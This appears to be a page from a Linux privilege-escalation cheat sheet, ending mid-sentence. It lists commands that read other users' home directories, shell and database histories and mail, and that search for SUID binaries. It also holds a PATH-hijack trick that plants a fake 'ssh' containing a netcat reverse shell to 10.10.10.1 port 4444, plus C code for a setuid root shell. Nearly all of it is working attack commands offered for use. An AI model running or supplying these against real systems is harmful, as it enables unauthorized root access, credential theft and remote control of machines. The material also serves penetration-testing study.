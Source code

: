 List other users home directories

$ ls -ahlR /root/; ls -ahlR /home/

User bash history

$ cat ~/.bash\_history; cat ~/.nano\_history; cat ~/.atftp\_history; cat ~/.mysql\_history; cat ~/.php\_history

User mails

$ cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root

Find interesting binaries

$ find / -name wget; find / -name nc\*; find / -name netcat\*; find / -name tftp\*; find / -name ftp

Mounted filesystems

$ mount; df -h; cat /etc/fstab

Look for binaries with the SUID or GUID bits set.

$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null

$ find / -perm -1000 -type d 2>/dev/null

$ find / -perm -g=s -type f 2>/dev/null

Adding a binary to PATH, to hijack another SUID binary invokes it without the fully qualified path.

$ function /usr/bin/foo () { /usr/bin/echo "It works"; }

$ export -f /usr/bin/foo

$ /usr/bin/foo

It works

if you can just change PATH, the following will add a poisoned ssh binary:

set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh

chmod +x ssh

Generating SUID C Shell for /bin/bash

int main(void){

setresuid(0, 0, 0);

system("/bin/bash");

}

Without interactive shell

$ echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c

If you can get root to execute anything, the following will change a binary owner to him and set the SUID flag:
